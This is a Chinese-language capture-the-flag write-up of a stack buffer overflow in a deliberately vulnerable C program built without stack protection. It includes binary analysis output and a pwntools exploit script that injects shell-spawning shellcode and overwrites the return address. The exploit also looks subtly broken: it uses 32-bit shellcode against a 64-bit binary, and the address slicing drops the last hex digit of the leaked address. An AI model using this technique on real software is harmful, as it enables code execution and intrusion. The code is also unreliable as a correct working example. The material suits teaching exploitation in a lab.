 ```yaml
---
title: pwn-sniper-02
updated: 2024-02-22 14:41:48Z
created: 2023-05-05 02:30:47Z
---
```


**漏洞程序源码如下：**

```c
#include <stdio.h>
#include <unistd.h>

int main(){
        char buffer[0x50] = {0}; // 定义一个 0x50 = 80 个字节的字符数组 , 并全部初始化为 0 
        printf("&buffer = %p\n", &buffer); // 打印字符数组在内存(栈段)中的地址
        fflush(stdout); // 刷新缓冲区
        read(0, buffer, 0xFF); // 使用 read 函数将缓冲区中的 0xFF 字节长度的数据读取到 buffer 数组中 , 以换行符结束
        printf("Content of buffer : %s\n", buffer); // 打印 buffer 的值
        return 0; // 主函数返回
}
```

**编译选项如下：**

```c
a.out:hello.c
        gcc -g -fno-stack-protector -z execstack hello.c
clean:
        rm ./a.out
```

**checksec**

```
└─$ checksec --file=a.out
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified    Fortifiable      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   75 Symbols        No    0            2a.out
```

**objdump**

```bash
└─$ objdump -t -j .text a.out 

a.out:     file format elf64-x86-64

SYMBOL TABLE:
0000000000400500 l    d  .text  0000000000000000              .text
0000000000400530 l     F .text  0000000000000000              deregister_tm_clones
0000000000400560 l     F .text  0000000000000000              register_tm_clones
00000000004005a0 l     F .text  0000000000000000              __do_global_dtors_aux
00000000004005c0 l     F .text  0000000000000000              frame_dummy
00000000004006e0 g     F .text  0000000000000002              __libc_csu_fini
0000000000400670 g     F .text  0000000000000065              __libc_csu_init
0000000000400500 g     F .text  000000000000002a              _start
00000000004005ed g     F .text  0000000000000077              main
```

**运行程序**

```bash
└─$ ./a.out 
&buffer = 0x7ffddf5e9f70
test
Content of buffer : test
```

**查看其反编译代码**

```c
undefined8 main(void)
{
    int64_t iVar1;
    undefined8 *puVar2;
    char buffer [80];
    
    // int main();
    puVar2 = (undefined8 *)buffer;
    for (iVar1 = 10; iVar1 != 0; iVar1 = iVar1 + -1) {
        *puVar2 = 0;
        puVar2 = puVar2 + 1;
    }
    printf("&buffer = %p\n", buffer);
    fflush(_stdout);
    read(0, buffer, 0xff);
    printf("Content of buffer : %s\n", buffer);
    return 0;
}
```

**分析如下，这个程序主要是将输入的数据从缓冲区复制给buffer变量，由于read并未限制读取，我们可以输入一段shellcode将其复制到buffer中，并在输入的shellcode后添加足够长度的数据使其可以覆盖到返回值，将返回值修改指向到buffer变量，从而可以执行我们写入的shellcode，示意图如下：**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/16b4fc6ffa60561271c4511a9606cf6c.png" alt="16b4fc6ffa60561271c4511a9606cf6c.png" width="566" height="428" class="jop-noMdConv">**

**buffer变量长度为80，ebp长度为8，长度一共为88**

```
>>> from pwn import *
>>> shellcode = asm(shellcraft.sh())
>>> print(shellcode)
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
>>> len(shellcode)
44
```

**shellcode的长度为44,那么88-44=44,所以还需要44字节的填充数据**

**Exp如下：**

```python
from pwn import *

io = process('./a.out')

addr  = io.recvline(keepends=False)
addr  = addr[10:-1]
addr  = addr.decode()
addr = int(addr,16)

shellcode = asm(shellcraft.sh())

io.sendline(shellcode + b'a'*44 +p64(addr))
io.interactive()
```

![85fee530006bac3d1d7836fb8e48698d.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/85fee530006bac3d1d7836fb8e48698d.png)